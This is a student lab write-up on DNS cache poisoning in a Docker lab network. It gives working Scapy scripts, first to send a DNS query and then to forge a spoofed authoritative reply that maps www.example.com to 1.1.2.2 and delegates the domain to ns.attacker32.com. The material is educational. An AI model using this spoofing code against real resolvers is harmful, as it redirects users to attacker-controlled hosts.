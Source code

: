 ## Section Conclusion
From the above 3 commands, we can tell that the dns server configuration is working as intended, we can start trying to carry out the attack


# Task 2: Construct DNS request
```python
from scapy.all import IP,UDP,RandShort,send
from scapy.layers.dns import DNSQR,DNS

name = 'example.com'
qdesc = DNSQR(qname=name)
dns = DNS(id = 0xAAAA, qr=0,qdcount=1,ancount=0,nscount=0,arcount=0,qd=qdesc)
ip = IP(dst='10.9.0.53',src='10.9.0.1')
udp = UDP(dport=53,sport=RandShort(),chksum=0)

request = ip/udp/dns
send(request,iface="br-e03c588d3885")
```

in the above code, we send a dns packet to the local dns server at `10.9.0.53` about the address `example.com`
## Running the code 
Make sure the above code is in the `volumes` folder so that docker can map whatever that is in this folder to the docker's `volumes` folder

Get into the attacker's container shell using `dockps` to list out the container ids and `docksh <container-id>` to access the shell. Navigate to the `volumes` folder using `cd volumes`

Open `Wireshark` and watch for your docker network's subnet activity

Run `python3 construct_pack.py` to send the dns packet to the intended local dns host


## Result
![Alt Text](/img/user/Study/50.020 Network Security/attachments/dns-packet-ws.png)
From the wire shark screenshot, we can see that in the DNS response packet, in the `answer section` the ip address of `example.com` is `93.184.216.34` which is the same as what we previously found out in the `dig command`

# Task3 Spoof DNS replies
```python
from scapy.all import IP,UDP,RandShort,send
from scapy.layers.dns import DNSQR,DNS,DNSRR

domain = 'example.com'
name = 'www.example.com'
ns = "ns.attacker32.com"
qdesc = DNSQR(qname=name)
anssec = DNSRR(rrname=name,type='A',rdata='1.1.2.2',ttl=259200)
nssec = DNSRR(rrname=domain,type='NS',rdata=ns,ttl=259200)
dns = DNS(id = 0xAAAA, aa=1,qr=1,rd=0,qdcount=1,ancount=1,nscount=1,arcount=0,qd=qdesc,an=anssec,ns=nssec)

ip = IP(dst='10.9.0.53',src='93.184.216.34',chksum=0)
udp = UDP(dport=33333,sport=53,chksum=0)

pkt = ip/udp/dns

send(pkt)
```
